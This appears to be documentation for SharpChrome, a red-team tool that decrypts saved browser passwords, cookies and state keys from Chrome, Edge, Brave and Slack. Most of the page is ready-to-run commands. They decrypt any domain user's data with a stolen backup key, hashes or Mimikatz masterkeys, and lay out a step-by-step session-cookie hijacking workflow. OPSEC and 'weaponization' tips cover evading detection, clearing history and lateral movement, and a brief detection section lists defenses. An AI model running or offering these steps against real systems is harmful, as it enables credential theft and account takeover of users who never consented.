

```
  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.9.0
```

## What is SharpChrome?

SharpChrome is a **Chromium-based browser credential extraction tool** built as a subproject of SharpDPAPI. It specializes in decrypting saved passwords, cookies, and state keys from Chrome, Edge, Brave, and Slack applications that use Chromium's credential storage system.

<Tip>
  SharpChrome is an adaptation of [@djhohnstein](https://twitter.com/djhohnstein)'s [SharpChrome project](https://github.com/djhohnstein/SharpChrome/) with enhancements including lockless SQLite database access and AES state key decryption for Chrome 80+.
</Tip>

## Supported Applications

<CardGroup cols={2}>
  <Card title="Google Chrome" icon="chrome">
    Original Chromium browser - cookies and login data
  </Card>
  <Card title="Microsoft Edge" icon="edge">
    Chromium-based Edge browser credentials
  </Card>
  <Card title="Brave Browser" icon="shield-alt">
    Privacy-focused Chromium browser data
  </Card>
  <Card title="Slack" icon="slack">
    Slack desktop application credentials
  </Card>
</CardGroup>

## Key Features

<Tabs>
  <Tab title="Cookies">
    **Extract Browser Cookies:**
    - Decrypt saved session cookies
    - Filter by cookie name or URL with regex
    - Export in EditThisCookie JSON format
    - Set cookies to never expire for persistence
  </Tab>

  <Tab title="Logins">
    **Extract Saved Passwords:**
    - Decrypt saved login credentials
    - Username and password pairs
    - Associated URLs and timestamps
    - CSV or table output format
  </Tab>

  <Tab title="State Keys">
    **AES State Key Extraction:**
    - Required for Chrome 80+ decryption
    - Decrypt the encrypted_key from Local State
    - Use extracted keys for offline decryption
    - Support for all Chromium-based applications
  </Tab>

  <Tab title="Domain Operations">
    **Remote & Domain-Wide:**
    - Remote system triage with domain backup key
    - Decrypt data for any domain user
    - Batch processing of multiple systems
  </Tab>
</Tabs>

## Chrome 80+ Architecture Changes

Starting with Chrome 80, Google changed how credentials are encrypted:



<Info>
  SharpChrome automatically detects Chrome versions and uses the appropriate decryption method. For Chrome 80+, it first decrypts the AES state key, then uses it to decrypt cookies and logins.
</Info>

## Command Overview

### logins

Extract and decrypt saved login credentials from Chromium-based browsers.

```bash
# Decrypt current user's Chrome logins
SharpChrome.exe logins

# Target Edge browser
SharpChrome.exe logins /browser:edge

# Use domain backup key for any user
SharpChrome.exe logins /pvk:key.pvk

# Remote system triage
SharpChrome.exe logins /server:workstation.domain.com /pvk:key.pvk
```

### cookies

Extract and decrypt browser cookies for session hijacking or analysis.

```bash
# Get all cookies for current user
SharpChrome.exe cookies

# Filter by cookie name (regex)
SharpChrome.exe cookies /cookie:"session.*"

# Filter by URL (regex)
SharpChrome.exe cookies /url:".*github\.com.*"

# Export in EditThisCookie JSON format
SharpChrome.exe cookies /format:json /setneverexpire

# Target specific browser
SharpChrome.exe cookies /browser:brave
```

### statekeys

Extract and decrypt AES state keys required for Chrome 80+ decryption.

```bash
# Extract state keys for all Chromium apps
SharpChrome.exe statekeys

# Use extracted state key with other commands
SharpChrome.exe cookies /statekey:AABBCC...

# Target specific application
SharpChrome.exe statekeys /browser:slack
```

### backupkey

Retrieve the domain DPAPI backup key from a domain controller (same as SharpDPAPI).

```bash
# Retrieve domain backup key
SharpChrome.exe backupkey

# Specify DC and output file
SharpChrome.exe backupkey /server:dc.domain.com /file:key.pvk
```

## Decryption Methods

<Tabs>
  <Tab title="Automatic (CryptUnprotectData)">
    When run from an unelevated context, SharpChrome automatically uses CryptUnprotectData() to decrypt the current user's data:

    ```bash
    # Run as current user - no additional arguments needed
    SharpChrome.exe logins
    SharpChrome.exe cookies
    ```

    **Requirements:**
    - Running in target user's context
    - No elevation needed
    - Only decrypts current user's data
  </Tab>

  <Tab title="Domain Backup Key">
    Use the domain DPAPI backup key to decrypt any domain user's data:

    ```bash
    # First, retrieve the backup key (requires DA)
    SharpChrome.exe backupkey /file:key.pvk

    # Then use it to decrypt any user's data
    SharpChrome.exe logins /pvk:key.pvk
    SharpChrome.exe cookies /pvk:key.pvk
    ```

    **Requirements:**
    - Domain Admin privileges (to retrieve key)
    - Key never changes
    - Works for any domain user
  </Tab>

  <Tab title="User Credentials">
    Use known user credentials to decrypt their data:

    ```bash
    # Using plaintext password
    SharpChrome.exe logins /password:Password123!

    # Using NTLM hash
    SharpChrome.exe logins /ntlm:8846F7EAEE8FB117AD06BDD830B7586C

    # Using DPAPI prekey (from Mimikatz sekurlsa::msv)
    SharpChrome.exe logins /prekey:abc123...
    ```

    **Requirements:**
    - Valid user credentials
    - Works locally or remotely
  </Tab>

  <Tab title="Masterkey Mappings">
    Use pre-extracted masterkey GUIDs and SHA1 values:

    ```bash
    # Using inline masterkeys
    SharpChrome.exe logins {GUID1}:SHA1 {GUID2}:SHA1

    # Using masterkey file
    SharpChrome.exe logins /mkfile:masterkeys.txt
    ```

    **Requirements:**
    - Extract masterkeys with Mimikatz `sekurlsa::dpapi`
    - Format: {GUID}:SHA1 pairs
  </Tab>
</Tabs>

## Common Arguments

<Tabs>
  <Tab title="Decryption">
    | Argument | Description |
    |----------|-------------|
    | `/unprotect` | Force CryptUnprotectData() (default when unprivileged) |
    | `/pvk:BASE64...` | Use base64-encoded domain backup key |
    | `/pvk:key.pvk` | Use domain backup key file |
    | `/password:X` | Decrypt using plaintext password |
    | `/ntlm:X` | Decrypt using NTLM hash |
    | `/prekey:X` | Use DPAPI prekey (from Mimikatz) |
    | `/rpc` | Decrypt by asking domain controller |
    | `{GUID}:SHA1 ...` | Use explicit masterkey mappings |
    | `/statekey:X` | Use pre-decrypted AES state key |
  </Tab>

  <Tab title="Targeting">
    | Argument | Description |
    |----------|-------------|
    | `/target:FILE` | Target specific Cookies or Login Data file |
    | `/target:C:\Users\X\` | Target specific user folder |
    | `/server:SERVER` | Target remote server (requires pvk/password) |
    | `/browser:X` | Target 'chrome' (default), 'edge', 'brave', or 'slack' |
  </Tab>

  <Tab title="Output">
    | Argument | Description |
    |----------|-------------|
    | `/format:csv` | CSV output (default) |
    | `/format:table` | Table output |
    | `/format:json` | JSON output (cookies only, for EditThisCookie) |
    | `/showall` | Show entries with null passwords and expired cookies |
    | `/consoleoutfile:X` | Redirect all output to file |
  </Tab>

  <Tab title="Filtering (Cookies Only)">
    | Argument | Description |
    |----------|-------------|
    | `/cookie:"REGEX"` | Filter cookies by name (regex) |
    | `/url:"REGEX"` | Filter cookies by URL (regex) |
    | `/setneverexpire` | Set cookie expiration to now + 100 years |
  </Tab>
</Tabs>

## Cookie Hijacking Workflow

<Steps>
  <Step title="Extract Target Cookies">
    ```bash
    # Extract GitHub session cookies
    SharpChrome.exe cookies /url:".*github\.com.*" /format:json /setneverexpire /pvk:key.pvk
    ```
  </Step>

  <Step title="Import into Browser">
    1. Install [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) extension
    2. Navigate to target site (e.g., github.com)
    3. Click EditThisCookie icon
    4. Click import button
    5. Paste JSON output from SharpChrome
  </Step>

  <Step title="Access Target Account">
    Refresh the page - you're now authenticated as the target user
  </Step>
</Steps>

## Typical Workflows

<AccordionGroup>
  <Accordion title="Scenario 1: Current User Context">
    ```bash
    # No privileges required - decrypt your own data
    SharpChrome.exe logins
    SharpChrome.exe cookies /url:".*company\.com.*"

    # Works for all supported browsers
    SharpChrome.exe logins /browser:edge
    SharpChrome.exe cookies /browser:brave
    ```
  </Accordion>

  <Accordion title="Scenario 2: Local Admin on Workstation">
    ```bash
    # 1. Extract masterkeys from LSASS with Mimikatz
    mimikatz# sekurlsa::dpapi

    # 2. Decrypt all users' Chrome data
    SharpChrome.exe logins {GUID1}:SHA1 {GUID2}:SHA1
    SharpChrome.exe cookies {GUID1}:SHA1 {GUID2}:SHA1
    ```
  </Accordion>

  <Accordion title="Scenario 3: Domain Admin - Mass Triage">
    ```bash
    # 1. Retrieve domain backup key
    SharpChrome.exe backupkey /file:key.pvk

    # 2. Triage local system
    SharpChrome.exe logins /pvk:key.pvk
    SharpChrome.exe cookies /pvk:key.pvk

    # 3. Triage remote systems
    SharpChrome.exe logins /pvk:key.pvk /server:workstation1.domain.com
    SharpChrome.exe logins /pvk:key.pvk /server:workstation2.domain.com

    # 4. Extract specific high-value cookies
    SharpChrome.exe cookies /pvk:key.pvk /url:".*aws\.amazon\.com.*" /format:json
    ```
  </Accordion>

  <Accordion title="Scenario 4: Chrome 80+ Offline Analysis">
    ```bash
    # 1. Copy Local State and Login Data files from target

    # 2. Decrypt state key
    SharpChrome.exe statekeys /target:"C:\Evidence\Local State" /pvk:key.pvk

    # 3. Use state key to decrypt logins
    SharpChrome.exe logins /target:"C:\Evidence\Login Data" /statekey:AABBCC...
    ```
  </Accordion>
</AccordionGroup>

## Lockless Database Access

<Info>
  SharpChrome uses a modified C# SQLite library that supports lockless opening of databases. This means Chrome/Edge does not need to be closed, and database files don't need to be copied to another location before analysis.
</Info>

**Benefits:**
- No need to close browser before extraction
- Direct access to live databases
- Reduced forensic footprint
- Faster operations

**Implementation:**
- Uses WAL (Write-Ahead Logging) mode
- Read-only access to database
- No interference with running browser

## Detection Considerations

<Warning>
  SharpChrome operations generate various indicators that can be detected by security monitoring tools.
</Warning>

<AccordionGroup>
  <Accordion title="Host-Based Detection" icon="computer">
    **File Access Indicators:**
    - Reading Chrome/Edge/Brave user data directories
    - Accessing Login Data and Cookies SQLite databases
    - Reading Local State files
    - Accessing user DPAPI masterkey folders

    **Process Indicators:**
    - SharpChrome.exe execution
    - Unusual SQLite database access patterns
    - Non-browser processes accessing browser data
  </Accordion>

  <Accordion title="Network Detection" icon="network-wired">
    - SMB access to browser data on remote systems
    - MS-BKRP protocol for backup key retrieval
    - DC RPC calls for domain backup key
  </Accordion>

  <Accordion title="Behavioral Detection" icon="eye">
    - Bulk access to multiple users' browser data
    - Accessing browser databases while browser is running
    - Reading Local State files for state key extraction
    - Simultaneous access to DPAPI and browser data
  </Accordion>

  <Accordion title="Defensive Measures" icon="shield">
    **Detection:**
    - Monitor access to browser data directories
    - Alert on non-browser processes accessing SQLite databases
    - Track DPAPI masterkey folder access
    - Detect domain backup key retrieval

    **Prevention:**
    - Use hardware tokens for critical accounts
    - Implement browser extensions that require re-authentication
    - Monitor for cookie theft/session hijacking
    - Regular credential rotation
  </Accordion>
</AccordionGroup>

## SQLite Library

SharpChrome uses a minimized, modified version of a [C# SQLite library](https://github.com/akveo/digitsquare/tree/a251a1220ef6212d1bed8c720368435ee1bfdfc2/plugins/com.brodysoft.sqlitePlugin/src/wp) that supports:

- Lockless database opening
- Read-only access mode
- WAL mode support
- Direct file access without copying

<Note>
  SharpChrome is built as a separate project in the SharpDPAPI solution due to the size of the SQLite library.
</Note>

## BCrypt Implementation

SharpChrome includes a minimized version of [@AArnott](https://github.com/AArnott)'s [BCrypt P/Invoke code](https://github.com/AArnott/pinvoke/tree/master/src/BCrypt) released under the MIT License for AES state key decryption.

## Prerequisites

<AccordionGroup>
  <Accordion title="Build Requirements">
    - Visual Studio 2019 Community Edition or later
    - .NET Framework 3.5 (default target)
    - Can be retargeted to .NET 4.0 or 4.5
    - Larger binary size due to SQLite library
  </Accordion>

  <Accordion title="Execution Requirements">
    - Windows operating system
    - .NET Framework on target
    - Chromium-based browser installed (Chrome, Edge, Brave, or Slack)
  </Accordion>

  <Accordion title="Privilege Requirements">
    **Current User Context:**
    - No elevation required
    - Can only decrypt current user's data

    **Elevated Context:**
    - Local Admin: Can decrypt all users on system
    - Domain Admin: Can decrypt any domain user with backup key
  </Accordion>
</AccordionGroup>

## Operational Security

<Accordion title="OPSEC Considerations">
  **Minimize Detection:**
  - Use from current user context when possible
  - Avoid dumping all cookies/logins unnecessarily
  - Target specific high-value accounts with filtering
  - Use `/consoleoutfile` to minimize screen artifacts

  **Post-Exploitation:**
  - Delete temporary files
  - Clear command history
  - Consider in-memory execution
  - Exfiltrate data securely
</Accordion>

<Accordion title="Weaponization Tips">
  - Embed in post-exploitation frameworks
  - Automate with PowerShell wrappers
  - Combine with credential spraying
  - Use for lateral movement via cookie hijacking
</Accordion>

## Output Formats

<Tabs>
  <Tab title="CSV (Default)">
    ```csv
    url,username,password
    https://github.com/login,user@example.com,SecretPassword123
    https://mail.google.com,admin@company.com,GooglePassword456
    ```

    Best for: Log analysis, data processing, spreadsheet import
  </Tab>

  <Tab title="Table">
    ```
    URL                              Username              Password
    ─────────────────────────────────────────────────────────────────
    https://github.com/login         user@example.com      SecretPassword123
    https://mail.google.com          admin@company.com     GooglePassword456
    ```

    Best for: Human-readable console output
  </Tab>

  <Tab title="JSON (Cookies Only)">
    ```json
    [
      {
        "domain": ".github.com",
        "name": "user_session",
        "value": "abc123...",
        "path": "/",
        "expirationDate": 2524608000,
        "secure": true,
        "httpOnly": true
      }
    ]
    ```

    Best for: Cookie hijacking with EditThisCookie extension
  </Tab>
</Tabs>

## Additional Resources

<CardGroup cols={2}>
  <Card title="Original SharpChrome" icon="github" href="https://github.com/djhohnstein/SharpChrome/">
    @djhohnstein's original SharpChrome project
  </Card>
  <Card title="Chrome Encryption Changes" icon="chrome" href="https://textslashplain.com/2019/06/18/cloud-keys-for-cookies/">
    Details on Chrome 80+ encryption changes
  </Card>
  <Card title="EditThisCookie Extension" icon="cookie" href="https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg">
    Cookie import extension for Chrome
  </Card>
  <Card title="SharpDPAPI Repository" icon="github" href="https://github.com/GhostPack/SharpDPAPI">
    Main SharpDPAPI repository containing SharpChrome
  </Card>
</CardGroup>

## Next Steps

<CardGroup cols={2}>
  <Card title="Extract Logins" icon="key" href="/ghostpack-docs/SharpDPAPI-mdx/sharpchrome-logins">
    Start extracting saved passwords
  </Card>
  <Card title="Hijack Cookies" icon="cookie" href="/ghostpack-docs/SharpDPAPI-mdx/sharpchrome-cookies">
    Learn cookie extraction and hijacking
  </Card>
  <Card title="State Keys" icon="key" href="/ghostpack-docs/SharpDPAPI-mdx/sharpchrome-statekeys">
    Extract AES state keys for offline analysis
  </Card>
  <Card title="Build SharpChrome" icon="hammer" href="/ghostpack-docs/SharpDPAPI-mdx/compilation">
    Compile SharpChrome from source
  </Card>
</CardGroup>

## License

SharpChrome is part of SharpDPAPI and is licensed under the BSD 3-Clause license.

<Note>
  SharpChrome is adapted from @djhohnstein's work and incorporates DPAPI functionality from Benjamin Delpy's Mimikatz project.
</Note>
